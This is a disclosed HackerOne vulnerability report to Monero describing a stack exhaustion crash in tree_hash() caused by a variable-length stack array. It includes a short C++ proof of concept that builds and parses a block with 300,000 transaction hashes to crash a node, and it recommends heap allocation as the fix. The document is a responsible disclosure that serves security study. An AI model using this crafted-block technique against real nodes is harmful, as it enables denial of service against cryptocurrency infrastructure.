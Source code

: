 # Computing hash of crafted block leads to crash in tree_hash()

## Report Details
- **Report ID**: 519120
- **URL**: https://hackerone.com/reports/519120
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-03-30T20:31:23.902Z
- **Disclosed**: 2019-07-03T00:11:28.656Z

## Reporter
- **Username**: guido
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: monero

## Vulnerability Information
I'm not sure how to test this against against an actual Monero instance, so I'm instead showing an isolated PoC:

```c
#include <cryptonote_basic/cryptonote_format_utils.h>

int main(void)
{
    cryptonote::block b = AUTO_VAL_INIT(b);
    for (size_t i = 0; i < 300000; i++) {
        b.tx_hashes.push_back({});
    }
    std::ostringstream oss;
    binary_archive<true> ba(oss);
    std::string s;
    if ( ::serialization::serialize(ba, b) == true ) {
        s = oss.str();
    } else {
        return 0;
    }

/* Uncomment to crash */
    cryptonote::block b2 = AUTO_VAL_INIT(b2);
    if ( parse_and_validate_block_from_blob(s, b2) == true ) {
        /* Crash */
        get_tx_tree_hash(b2);
    }
    return 0;
}
```

The reason this crashes is because of this code in ```tree_hash```:

```c
    char ints[cnt][HASH_SIZE];
    memset(ints, 0 , sizeof(ints));  // zero out as extra protection for using uninitialized mem
```

```ints``` is allocated on the stack, not on the heap. Its size is dynamic; ```cnt``` (derived from the number of ```tx_hashes``` in this example) multiplied by 32 (```HASH_SIZE```) is the amount of bytes reserved on the stack.

On a typical, modern 64 bit OS, the stack is usually 8MB in size. Hence, a sufficient amount of ```tx_hashes``` will cause more stack to be reserved than is available.
Technically, the reservation of the stack space doesn't cause the crash (this only alters the stack pointer), but the subsequent ```memset``` does.

Note that the serialized size of a block with 300000 tx_hashes is about 9 MB (see ```s.size()```), which is well within the limits of ```CRYPTONOTE_MAX_BLOCK_SIZE``` (500MB).

The best remediation to this issue is to use allocate memory on the heap, not the stack.

## Impact

Crash nodes

## Attachments
No attachments
